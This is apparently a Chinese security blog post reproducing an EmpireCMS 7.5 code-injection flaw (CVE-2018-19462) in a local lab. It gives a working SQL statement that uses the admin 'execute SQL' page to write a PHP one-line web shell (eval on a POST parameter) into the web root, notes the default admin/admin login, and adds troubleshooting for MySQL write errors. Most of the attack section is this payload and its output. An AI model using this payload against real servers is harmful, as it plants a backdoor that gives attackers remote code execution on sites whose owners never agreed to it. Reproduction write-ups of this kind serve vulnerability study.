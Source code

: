 ```yaml
---
title: 帝国cms漏洞整理
tags:
  - 复现
  - 安全
categories:
  - 安全
copyright: true
permalink: 帝国cms漏洞整理
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-11-25 21:09:05
---
```


帝国



## 环境搭建

下载phpstudy 默认安装帝国cms7.5版本。一键搭建，然后默认地址为http://www.diguo.com/e/admin/ 账号密码admin/admin

## 帝国CMS(EmpireCMS) v7.5 代码注入分析(CVE-2018-19462)


mpireCMS7.5及之前版本中的admindbDoSql.php文件存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中,网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段,修改网络系统或组件的预期的执行控制流。


## 复现过程

登陆后台，在系统-执行SQL语句中执行sql命令

```
select '<?php @eval($_POST[aaaa])?>' into outfile 'C:/phpstudy_pro/WWW/www.diguo.com/shell.php'
```
显示执行成功，执行失败看下失败的原因，主要是在mysql上的原因。

如果文件存在 不能覆盖
```
File 'C:/phpstudy_pro/WWW/upload/upload/shell.php' already exists
select '' into outfile 'C:/phpstudy_pro/WWW/upload/upload/shell.php'
```

如果路径不对

```
Can't create/write to file 'C:\phpstudy_pro\WW1W\upload\upload\shell.php' (Errcode: 2 - No such file or directory)
select '' into outfile 'C:/phpstudy_pro/WW1W/upload/upload/shell.php'
```
